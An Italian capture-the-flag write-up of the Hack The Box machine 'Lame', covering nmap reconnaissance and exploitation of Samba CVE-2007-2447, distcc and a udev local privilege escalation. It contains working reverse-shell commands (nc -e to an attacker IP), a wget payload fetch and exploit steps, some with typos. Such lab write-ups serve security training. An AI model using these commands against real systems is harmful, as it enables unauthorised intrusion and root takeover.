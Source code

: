 # Lame

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap per conoscere le porte aperte e i servizi che girano su di esse.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.3
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 21:** File Transfer Protocol \(FTP\) versione 2.3.4
* **Porta 22:** OpenSSH versione 4.7p1
* **Porte 139 e 445:** Samba v3.0.20-Debian

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-1.png" />
</p>

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-2.png" />
</p>

Prima di iniziare a lavorare su queste porte, lancio una scansione nmap più completa in background.

```text
sudo nmap -sC -sV -O -p- -oA /usr/share/nmap/full 10.10.10.3
```

Di seguito il risultato della seconda scansione:

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-3.png" />
</p>

E' possibile notare la presenza di una nuova porta che non veniva mostrata nella scansione precedente.

* **Porta 3632**: distributed compiler daemon distcc versione 1.

Esco da questa fase con quattro differenti punti di ingresso da testare.

## Enumeration

In questa fase cerco di capire se qualcuno di questi servizi servizi è configurato in modo errato o se presenta vulnerabilità note.

### 1) Porta 21 vsftpd v2.3.4

Una semplice ricerca su google mi mostra che questa versione è vulnerabile all'esecuzione di un comando backdoor che viene attivato inserendo una stringa come username che contiene i caratteri “:\)”.
Quando la backdoor viene attivata, la macchina di destinazione apre una shell sulla porta 6200.

E' possibile controllare l'effettiva vulnerabilità mediante uno script nmap.

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-4.png" />
</p>

```text
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
```

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-5.png" />
</p>

Dall'output dello script capisco che non è possibile sfruttare questa vulnerabilità.

### 2) Porta 22 OpenSSH v4.7p1

Effettuando una rapida ricercaho trovato questo progetto: [OpenSSH 4.7p1 CVE-2008-5161 Exploit](https://github.com/pankajjarial360/OpenSSH_4.7p1).

Lo script openssh_4.7p1.py controlla la versione del servizio SSH per confermare che sia in esecuzione OpenSSH versione 4.7p1. Successivamente, imposta i parametri necessari per un attacco brute-force utilizzando un elenco di nomi utente e password presi da una specifica wordlist.

Una volta avviato e completato l'exploit, lo script recupera tutte le sessioni attive che sono state create e permette di interagire con esse.

Lancio lo script in background e proseguo con l'analisi dei restanti punti di ingresso.

```text
python openssh_4.7p1.py
```

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-8.png" />
</p>

Questa strada richiedeva troppo tempo e per questo motivo l'esecuzione dello script è stata interrotta.

### 3) Porte 139 e 445 Samba v3.0.20-Debian

Utilizziamo smbclient per accedere al server SMB.

```text
smbclient -L 10.10.10.3
```
* **-L**: lista dei serzi disponibili sul server

Noto che la mia macchina è configurata in maniera tale da non connettersi alle versioni SMB precedenti (per motivi di sicurezza).

Per ovviare a questo problema modifico il comando nel modo seguente:

```text
smbclient -L 10.10.10.3 --option='client min protocol=NT1'
```
<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-6.png" />
</p>

**E' disponibile il login anonimo!**

Ora cerco di capire quali sono i permessi sui file condivisi.

```text
smbmap -H 10.10.10.3
```

* **-H**: IP dell'host

Scopro di avere accesso di tipo READ/WRITE sulla cartella tmp.

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-7.png" />
</p>

Effettuando una ricerca veloce noto che questa versione del servizio è [vulnerabile](https://www.cvedetails.com/vulnerability-list/vendor_id-102/product_id-171/version_id-41384/Samba-Samba-3.0.20.html).

Cerco di sfruttare la vulnerabilità [CVE-2007–2447](https://www.cvedetails.com/cve/CVE-2007-2447/) che si basa su un problema legato all'invio di specifici metacaratteri.

```text
"/=`nohup " + payload.encoded + "`"
```

Prima di sfruttare la vulnerabilità, analizzo l'ultimo punto di ingresso rimasto.

### 3) Port 3632 distcc v1

Da una ricerca capisco che il servizio è vulnerabile all'esecuzione di codice da remoto.

Esiste uno script nmap che permette di verificare la presenza di questa vulnerabilità.

```text
nmap --script distcc-cve2004-2687 -p 3632 10.10.10.3
```

**E' vulnerabile!**

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-9.png" />
</p>

Quindi ho a disposizione due strade per cercare di bucare questa macchina.

## Exploitation

### 1) Samba

Mi metto in ascolto sulla porta 8080.

```text
nc -nlvp 8080
```

Eseguo il login sul client smb.

```text
smbclient //10.10.10.3/tmp --option='client min protocol=NT1'
```

Inserisco la sequenza di metacaratteri menzionata in precedenza.

```text
logon "/=`nohup nc -nv 10.10.14.5 8080 -e /bin/sh`"
```

**Ho ottenuto una shell dalla macchina lame con privilegi root!**

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-10.png" />
</p>

### 2) Distcc

Utilizzo uno script nmap per sfruttare la vulnerabilità citata precedentemente.

Mi metto in ascolto sulla porta 4444.

```text
nc -nlvp 4444
```

Successivamente, utilizzo lo script nmap per dare vita a una reverse shell.

```text
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.5 4444 -e /bin/bash'"
```

Questa volta non abbiamo una shell con privilegi root.

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-10.png" />
</p>

Per ottenere i privilegi root provo con la vulnerabilità [CVE 2009–1185](https://www.exploit-db.com/exploits/8572).

```text
searchsploit -m 8572.c
```

Avvio un server sulla mia macchina.

```text
python -m SimpleHTTPServer 9000
```

Trasferisco il file alla macchina lame.

```text
wget http://10.10.14.5:9000/8572.c
```

Compilo l'exploit.

```text
gcc 8572.c -o 8572
```

Per eseguirlo mi servono devo:
* Trovare il PID del servizio
* Creare un file nella cartella /tmp e aggiungere una reverse shell in esso

Per ottenre il PID eseguo il seguente comando:

```text
ps -aux | grep devd
```
Creo il file **run** in /tmp e aggiungo una reverse shell all'interno.

```text
cd /tempo
echo '#/bin/bash' > run
echo 'nc -nv 10.10.14.5' 4445 -e /bin/bash' >> run
```

Mi metto in ascolto sulla porta 4445.

```text
nc -nlvp 4445
```

Eseguo l'exploit.

```text
./8572 2661
```

**Ed ecco l'utenza root!**
